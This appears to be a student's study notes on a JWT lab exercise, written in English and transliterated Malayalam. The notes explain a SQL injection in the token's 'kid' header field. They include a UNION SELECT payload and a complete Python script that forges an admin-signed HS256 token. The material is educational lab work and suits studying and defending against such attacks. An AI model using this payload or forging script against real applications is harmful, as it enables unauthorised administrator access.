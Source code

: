 ## Introduction
-->This exercise covers the exploitation of an injection in the kid element of a JWT. This injection can be used to bypass the signature mechanism
-->This course details the exploitation of a weakness in the usage of a JSON Web Token (JWT).
-->This exercise was inspired by one of the challenges during [BitcoinCTF](https://bitcoinctf.com): one of the best and most complex web Capture-The-Flag's.

## The vulnerability
-->The issue comes from one of the fields in the header: kid.
-->This parameter is available in some libraries, it's short for key identifier.
-->In this application, the kid is used without proper escaping to retrieve the key.
-->This lack of escaping could lead to multiple types of vulnerabilities:
-   SQL injections.
-   Directory traversals.
-   ...

## Exploitation
-->First, you will need to automate the testing and see what happens when you tamper with the kid value.
-->After poking for a bit, you should be able to discover what type of vulnerabilities are present in the retrieval of the key.
-->Using this, you will need to find an injection that will return a predictable result. Once you have this injection you will be able to sign your malicious JWT.
-->==A good way to get a predictable result is to get rid of the first row of the result using a random string, then adding a predictable row using UNION SELECT '1==

## Conclusion
-->This exercise showed you another way to tamper with a JWT to gain administrator access in an application.
-->It showed you that having a signed value is only as strong as the way the signature is handled.
-->Here by finding a vulnerability in the way the key was retrieved, you were able to use a weak key and bypass the signature.

# Video Explanation
## Video 1 - introduction
-->in this challenge the vulnerability is an sql injection
-->the injection will allow you to predict the value returned when the application queries the database
-->You can use a lot of exploitation methods but Union Based (union select ...) allows you to easily return the value you want ie,for example :
```
SELECT key FROM keys WHERE kid='key1'    ennakum real query
but namal ivide union select chyumbol :
SELECT key FROM keys WHERE kid='zzzzzz' UNION SELECT 'aaa'   enn kodukunu
ith query aan.code il inject chyumbol :
..."HS256","Kid":"zzzzz' UNION SELECT 'aaa"}    enn aan kodukendath ok
```
-->so ingane chyumbol namuk 'aaa'  enn sathanam koodi namuk kodukan patunu.
-->ee lab jwtIII pole thane same aan.so athinte code use chythalum mathi.athil namal kid=../../../  ingane directory traversal aan koduthath ivide nama ath maati zzzz' UNION SELECT 'aaa'  en kodutha mathi.enit key varibale il "aaa"  enn kodukuka
-->ivide union select use chythath ethengilum data retrieve chyan alla pakaram 'aaa'  ennath key aayi forge chyan aan 
-->ivide oru column mathrame ullu enna oru assumption vechan namal 'aaa'  enn koduthath.karanam kid='key1' ennanalo kanikunath.ini athava onnil kooduthal undengil 1,'aaa'  enn kodukam.athoke noki chythamathi ok
-->ivide `zzzzz`  enn namal key1 ennath matit kodukunu karanam database il zzzzzz ingane onn undakila so first query namuk onum return chyth tharila.and randamathe query namuk 'aaa' tharum.so namal ath key aaki matanam. so code il key enno mato varible aaki aaa enn namal kodukanam ie, key='aaa'

## Video - 2 - python exploitation
-->jwtIII il ninum ulla athe code thane aan ividem use chyunath :
```python
import hmac
import base64
import hashlib
import json


header = {"typ":"JWT","alg":"HS256","kid":"zzzz' UNION SELECT 'aaa"}
key = "aaa"

payload = {"user":"admin"}

str = base64.urlsafe_b64encode(bytes(json.dumps(header),encoding='utf8')).decode('utf8').rstrip("=")+"."+base64.urlsafe_b64encode(bytes(json.dumps(payload),encoding='utf8')).decode('utf8').rstrip("=")
sig = base64.urlsafe_b64encode(hmac.new(bytes(key,encoding='utf8'),str.encode('utf8'),hashlib.sha256).digest()).decode('utf8').rstrip("=")
print(str+"."+sig)
```
-->jwtIII il ninum edutha code il aake rand changes njan chytholu ie, "kid":"zzzz' UNION SELECT 'aaa"  enn koduthathum athupole key = "aaa"  enn koduthathum
-->ivide kid paramter il sherikum key1 ennan undayirunath .namal ath mati zzz enn kodukunu karnaam database il zzzz ila so first query onnum return chyila so randamathe query ini application run chyum.athil 'aaa'  enna string und.so namuk aa 'aaa' enna string kid paramter point chyunathayi vekam athin namal key enna variable il "aaa"  enn koduth set chyunu.so ini code signature aakumbol aa key aan token undakumbol use chyyuka.angane namuk admin aayi maran patum ok
